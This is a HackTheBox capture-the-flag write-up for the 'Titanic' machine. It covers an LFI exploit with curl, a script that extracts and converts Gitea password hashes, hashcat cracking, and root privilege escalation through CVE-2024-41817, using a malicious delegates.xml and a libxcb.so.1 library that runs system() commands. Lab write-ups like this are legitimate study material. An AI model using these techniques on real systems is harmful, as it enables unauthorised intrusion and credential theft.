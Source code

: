 # Titanic

**Category:** Machine  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Machine Description

Titanic is a easy-difficulty machine that involves web application vulnerabilities, database exploitation, and privilege escalation through ImageMagick security flaws.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -p- --min-rate 2000 -sV -sC $target
```

### Directory Enumeration

```bash
feroxbuster --redirects --smart --url http://titanic.htb
```

## Exploitation

### Step 1: Local File Inclusion (LFI)

Discovered a Local File Inclusion vulnerability in the download parameter:

```
http://titanic.htb/download?ticket=03c24d12-6b39-470a-90ca-23f63518d154.json
```

**Proof of Concept:**
```bash
curl http://titanic.htb/download?ticket=/home/developer/user.txt
```

**Interesting Files Discovered:**
- `/etc/apache2/apache2.conf`
- `/etc/passwd`
- `/etc/hosts`
- `/home/developer/gitea/data/gitea/conf/app.ini`
- `/home/developer/gitea/data/gitea/gitea.db`

### Step 2: Database Extraction

Retrieved the Gitea database and extracted user credentials:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" |
  while read data; do
    digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)
    salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)
    name=$(echo $data | cut -d'|' -f 3)
    echo "${name}:sha256:50000:${salt}:${digest}"
  done |
  tee gitea.hashes
```

**Explanation:**
- `cut -d'|' -f1` → Extracts the **first field** (`passwd` hash)
- `xxd -r -p` → Converts the **hex-encoded hash** into raw binary
- `base64` → Encodes the **raw binary hash** into Base64

**Extracted Hashes:**
```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

### Step 3: Password Cracking

![Password cracking results](./images/screenshot01.png)

Cracked the Gitea hashes using Hashcat:

```bash
hashcat gitea.hashes --show --user /opt/SecLists/rockyou.txt
```

### Step 4: Initial Access

SSH'd into the machine using the developer credentials and enumerated writable directories:

```bash
find / -writable -type d 2>/dev/null
```

### Step 5: Privilege Escalation Discovery

Explored the `/opt/` directory and discovered the `/opt/scripts` directory containing `identify_images.sh`:

![Script discovery](./images/screenshot02.png)

The script had execution and read permissions for users.

### Step 6: ImageMagick Vulnerability Analysis

**ImageMagick Version Check:**
```bash
/usr/bin/magick --version
```

Discovered **CVE-2024-41817** - Arbitrary Code Execution vulnerability affecting ImageMagick versions ≤ 7.1.1-35.

![ImageMagick uses libxcb.so.1 as a dynamic library and executes the command (id) in it](./images/screenshot03.png)

ImageMagick uses **libxcb.so.1** as a dynamic library and executes commands through it.

### Step 7: Local Vulnerability Testing

**Step 1: Create delegates.xml payload**
```bash
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

ImageMagick reads `delegates.xml` and sees that `decode="XML"` requires the "id" command.

**Step 2: Execute the payload**
```bash
magick ./delegates.xml ./out.png 2>/dev/null
```

ImageMagick attempts to process `delegates.xml` as an image and create `out.png`. Since `delegates.xml` is not an image, ImageMagick encounters an error and tries to process it using the commands specified in `delegates.xml`. The error output is suppressed.

**Step 3: Compile malicious library**
```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

The `__attribute__((constructor))` automatically executes the `init()` function when the library is loaded. The `init()` function contains the `system()` command, which executes the `id` command. After execution, the process is forcibly terminated by calling `exit(0)`.

**Step 4: Test command execution**
```bash
magick /dev/null /dev/null
```

ImageMagick receives no input and output files but loads instructions from the `libxcb.so.1` created in the same directory and executes the `id` command.

### Step 8: Final Exploitation

Created a malicious `libxcb.so.1` with a payload in the `/opt/app/static/assets/images` directory and used the `identify_images.sh` script to trigger ImageMagick execution.

**Final Payload & Execution:**
```bash
# Navigate to the target directory
cd /opt/app/static/assets/images

# Compile the malicious library
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

# Trigger ImageMagick execution via the script
/opt/scripts/identify_images.sh
```

Successfully exploited the CVE to copy `root.txt` into this readable folder.

## Tools Used

- **Nmap** - Port scanning and service enumeration
- **Feroxbuster** - Directory enumeration
- **SQLite3** - Database extraction
- **Hashcat** - Password cracking
- **GCC** - Payload compilation
- **ImageMagick** - Target application

## Summary

[Titanic has been Pwned](https://labs.hackthebox.com/achievement/machine/2245732/648)

The machine was successfully compromised through LFI → Database extraction → Password cracking → Privilege escalation via CVE-2024-41817.

